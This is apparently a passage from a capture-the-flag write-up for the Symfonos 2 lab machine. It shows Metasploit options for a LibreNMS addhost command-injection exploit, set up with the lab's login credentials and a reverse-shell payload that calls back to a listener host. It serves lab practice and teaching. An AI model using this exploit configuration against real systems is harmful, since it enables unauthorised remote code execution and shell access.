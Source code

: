 ![](/assets/images/symfonos2/sym22.png)


Trying the metasploit exploit addhost command injection:
```
msf5 exploit(linux/http/librenms_addhost_cmd_inject) > options

Module options (exploit/linux/http/librenms_addhost_cmd_inject):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   sergioteamo      yes       Password for LibreNMS
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base LibreNMS path
   USERNAME   aeolus           yes       User name for LibreNMS
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux
```
